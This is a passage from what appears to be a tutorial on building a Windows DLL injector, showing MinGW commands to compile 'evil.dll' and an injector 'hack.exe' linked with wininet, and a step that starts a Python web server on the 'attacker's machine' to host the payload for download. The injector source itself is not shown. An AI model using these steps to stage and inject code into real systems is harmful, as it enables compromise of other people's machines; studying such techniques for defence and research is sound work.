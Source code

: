 So finally after we understood entire code of the injector, we can test it.    

### demo

First of all, compile DLL:   

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![injection](./images/50/2022-04-15_16-39.png){width="80%"}    

Then, compile injector:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-lwininet -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection](./images/50/2022-04-15_16-42.png){width="80%"}    

Prepare simple web server on attacker's machine:    

```bash
python3 -m http.server 4444
```
